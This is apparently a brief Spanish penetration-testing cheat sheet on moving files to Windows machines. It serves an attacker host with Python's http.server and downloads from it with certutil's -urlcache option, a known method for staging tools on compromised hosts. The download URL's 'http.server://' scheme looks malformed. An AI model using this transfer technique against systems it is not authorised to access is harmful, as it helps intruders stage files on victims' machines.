

# Compartir Archivos por la Red en Máquinas Windows

* Compartir servidor web con python en la máquina de atacante:

```bash
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Descargar archivo desde la máquina windows con certutil:&#x20;

<figure><figcaption></figcaption></figure>

```bash
certutil -split -urlcache -f http.server://192.168.1.18/archivo.txt archivo.txt
```
